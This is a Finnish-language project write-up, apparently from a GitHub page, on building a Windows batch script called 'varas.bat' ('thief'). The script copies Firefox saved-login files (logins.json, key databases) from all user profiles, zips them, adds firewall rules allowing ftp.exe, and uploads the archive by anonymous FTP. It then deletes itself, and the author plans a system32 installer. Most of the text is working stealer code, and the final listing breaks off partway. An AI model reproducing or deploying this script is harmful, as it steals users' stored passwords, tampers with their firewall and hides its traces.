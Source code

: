 Kun scripti ja sen vaiheet olivat valmiit kokeilin pyöräyttää sen komennolla:
```
ftp -s:temp.txt
```
Scripti toimi niinkuin pitääkin ja tiedostot tulivat automaattisesti palvelimelleni.  
  
Seuraavaksi siirryin tekemään kyseisen scripti tiedoston .bat tiedoston kautta.  
Komennot oli helppo tehdä uuteen tekstitiedostoon nimeltään temp.txt seuraavilla komennoilla:  
```
@echo off
echo open 127.0.0.1> temp.txt
echo anonymous>> temp.txt
echo asd >> temp.txt
echo cd salasanat>> temp.txt
echo quote pasv>> temp.txt
echo binary>> temp.txt
echo send C:\salasanat\salasanat.zip>> temp.txt
echo quit>> temp.txt
```

Nyt pystyin lisäämään .bat tiedostoon tuon scriptin pyöräytys komennon: ftp -s:temp.txt  
Kokeilin pyöräyttää koko scriptin uudestaan poistettuani kaikki liittyneet kansiot palvelimeltani ja kohde koneelta.  
Se toimi mainiosti. Scripti kopioi nyt salasana tiedostot ja lähettää ne automaattisesti.  
Lisäsin scriptin loppuun vielä kohdat del temp.txt ja del varas.bat, jolloin scripti tuhoaa itsensä pyörittämisen jälkeen.  
Tuhoaminen onnistui nätisti normaaleilla oikeuksilla, mutta administrator oikeuksilla pyöirrätessä suoritus polku muuttuu kansioon system32, jolloin scripti ei löydä omia tiedostojaan. Tämän pyrin korjaamaan myöhemmin rakentamalla asentajan, jonka mukana scripti tulee ja laittamalla tiedostot system32 kansioon.  

Päätin lisätä vielä scriptiin vielä komennot joilla palomuuri avattaisiin FTP:n osalta, jottei aikaisemmin tullutta palomuuri kehoitusta tulisi. Tein tämän komennolla:
```
netsh advfirewall firewall add rule name="FTP" dir=in action=allow program=%SystemRoot\System32\ftp.exe enable=yes protocol=tcp
netsh advfirewall firewall add rule name="FTP" dir=in action=allow program=%SystemRoot\System32\ftp.exe enable=yes protocol=udp
netsh advfirewall firewall add rule name="FTP" dir=OUT action=allow program=%SystemRoot\System32\ftp.exe enable=yes protocol=tcp
netsh advfirewall firewall add rule name="FTP" dir=OUT action=allow program=%SystemRoot\System32\ftp.exe enable=yes protocol=udp
```
Nämä komennot tosin vaativat scriptin pyörittämistä administrator oikeuksilla kohde koneessa. Aikaisemmat pätkät toimivat ilman näitä oikeuksiakin.  
Kokonaisuudessaan scripti näyttää nyt siis tältä:
```
mkdir C:\salasanat\
netsh advfirewall firewall add rule name="FTP" dir=in action=allow program=%SystemRoot\System32\ftp.exe enable=yes protocol=tcp
netsh advfirewall firewall add rule name="FTP" dir=in action=allow program=%SystemRoot\System32\ftp.exe enable=yes protocol=udp
netsh advfirewall firewall add rule name="FTP" dir=OUT action=allow program=%SystemRoot\System32\ftp.exe enable=yes protocol=tcp
netsh advfirewall firewall add rule name="FTP" dir=OUT action=allow program=%SystemRoot\System32\ftp.exe enable=yes protocol=udp
powershell Copy-Item -Path C:\Users\*\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\logins.json -Destination C:\salasanat\
powershell Copy-Item -Path C:\Users\*\AppData\Roaming\Mozilla\Firefox\Profiles\*.*\key*.db -Destination C:\salasanat\
powershell Compress-Archive -Path C:\salasanat -DestinationPath C:\salasanat\salasanat.zip
@echo off
echo open 127.0.0.1> temp.txt
echo anonymous>> temp.txt
echo asd >> temp.txt
echo cd salasanat>> temp.txt
```